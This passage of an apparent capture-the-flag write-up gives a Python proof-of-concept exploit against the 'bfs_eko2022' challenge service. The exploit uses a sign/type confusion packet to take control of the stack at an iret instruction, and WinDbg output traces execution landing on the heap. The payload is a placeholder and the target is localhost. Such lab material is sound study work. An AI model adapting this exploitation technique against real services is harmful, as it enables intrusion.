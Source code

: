 ## Poc 0x01

```python
#!/usr/bin/env python3
import sys, socket, struct
p32 = lambda x: struct.pack('<I', x);

TARGET = '127.0.0.1'
PORT = 31415

sc = b""

p=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
p.connect((TARGET,PORT))

# handshake
p.send(b"Hello\x00")
p.recv(3) # Hi\x00

buf =  b""
buf += b"Eko2022\x00" # magic value  
buf += b"T" # packet type
buf += b"\xff\xff" # sign/type confusion


iret = b""
iret += p32(0x41414141) 	
iret += p32(0x42424242) 			
iret += p32(0x43434343) 	
iret += p32(0x44444444) 	
iret += p32(0x45454545)	

buf += iret
buf += sc
buf += b"A"*(0x0f00-len(iret)-len(sc))
buf += b"X" # X leads to packet type confusion
buf += b"B"*0x07 # we want pops, avoid pushs
p.send(buf)
p.recv(1)
p.close() 
```

When we break on the call instruction we can see that we land on the heap and can single step until the `iret` instruction. Note that we chose the input length in a way we avoid the pushs and land right at the pops in order to fully control the stack at the moment `iret` is called.

```
bp bfs_eko2022+0x146E
g
Breakpoint 0 hit
bfs_eko2022+0x146e:
00007ff7`c7f2146e ff158cab0000    call    qword ptr [bfs_eko2022+0xc000 (00007ff7`c7f2c000)] ds:00007ff7`c7f2c000=0000000010000f08
0:000> t
00000000`10000f08 58              pop     rax
0:000> p
00000000`10000f09 58              pop     rax
0:000> 
00000000`10000f0a 58              pop     rax
0:000> 
00000000`10000f0b 58              pop     rax
0:000> 
00000000`10000f0c 58              pop     rax
0:000> 
```